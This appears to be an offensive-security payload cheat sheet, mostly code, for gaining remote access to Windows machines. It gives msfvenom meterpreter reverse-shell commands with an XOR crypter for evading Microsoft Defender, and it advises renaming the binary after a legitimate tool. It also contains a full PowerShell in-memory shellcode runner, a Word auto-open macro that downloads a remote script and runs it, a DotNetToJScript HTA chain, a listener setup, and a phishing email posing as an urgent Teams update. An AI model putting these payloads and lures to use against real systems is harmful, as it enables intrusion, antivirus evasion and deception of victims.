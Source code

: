 # Payloads

* [Bypass MS Defender](#bypass-ms-defender)
* [Reverse Shell MS Word Macro](#reverse-shell-ms-word-macro) / DETECTED
* [C# Payload with HTA and JScript](#csharp-payload-with-hta-and-jscript)

# Bypass MS Defender 

Generate Shellcode for C#

```shell
python3 shellcodeCrypter-msfvenom.py kali 443 xor cs 250 windows/x64/meterpreter/reverse_http
```

Clone the [Shellcode Process Injector](https://github.com/chvancooten/OSEP-Code-Snippets/tree/main/Shellcode%20Process%20Injector) project and copy the previous shellcode at buf variable. `Build` -> `Batch Build` -> `Select a Build` -> Click on `Build` .

Rename the final executable. Use offical appilcation names like: procexp64

```shell
.\procexp64.exe
```

# Reverse Shell MS Word Macro

Complete PowerShell script for in-memory shellcode runner

```powershell
function LookupFunc {
	Param ($moduleName, $functionName)
	$assem = ([AppDomain]::CurrentDomain.GetAssemblies() |
	Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
	$tmp=@()
	$assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
	return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null,
	@($moduleName)), $functionName))
}

function getDelegateType {
	Param (
	[Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,
	[Parameter(Position = 1)] [Type] $delType = [Void]
	)
	$type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass',[System.MulticastDelegate])
	$type.DefineConstructor('RTSpecialName, HideBySig, Public',	[System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
	$type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')
	return $type.CreateType()
}
$lpMem = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualAlloc), (getDelegateType ([IntPtr], [UInt32], [UInt32], [UInt32])([IntPtr]))).Invoke([IntPtr]::Zero, 0x1000, 0x3000, 0x40)

[Byte[]] $buf = 0xfc, ...
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $lpMem, $buf.length)

$hThread = [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll CreateThread), (getDelegateType @([IntPtr], [UInt32], [IntPtr], [IntPtr],[UInt32], [IntPtr])([IntPtr]))).Invoke([IntPtr]::Zero,0,$lpMem,[IntPtr]::Zero,0,[IntPtr]::Zero)
[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll WaitForSingleObject), (getDelegateType @([IntPtr], [Int32]) ([Int]))).Invoke($hThread, 0xFFFFFFFF)
```

Generate the reverse shell payload

```shell
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.0.203 LPORT=443 EXITFUNC=thread -f ps1
```

Create a macro that executes a PS in-memory

```vb
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.0.203/run.ps1') | IEX"
    Shell str, vbHide
End Sub
Sub Document_Open()
    MyMacro
End Sub
Sub AutoOpen()
    MyMacro
End Sub
```

# C# Payload with HTA and JScript

> Create a C# payload with MSFVenom

```shell
msfvenom -p windows/x64/meterpreter/reverse_http LHOST=kali LPORT=443 EXITFUNC=thread -f csharp
```

> Clone [DotNetToJScript](https://github.com/tyranid/DotNetToJScript) project and replace MSFVenom output in the buf variable. Then build the solution.
After building, create the JScript payload.

```shell
DotNetToJScript.exe ExampleAssembly.dll --lang=JScript --ver=v4 -o payload.js
```

Create a skeleton .HTA file with JScript tags

```shell
# To add
```

> Listen with multi/handler meterpreter

```shell
msfconsole -q
use multi/handler
set payload windows/x64/meterpreter/reverse_http
set lhost 192.168.0.203
set lport 443
run
```

> Send phishing email. Remember to host the resource.

```shell
sendemail -f administrator@domain.com -t jose@domain.com -s 192.168.0.203 -u "URGENT - Important Teams Update" -m "Please click on this link to update Teams - http://192.168.0.203/teamsHTA.hta"
```

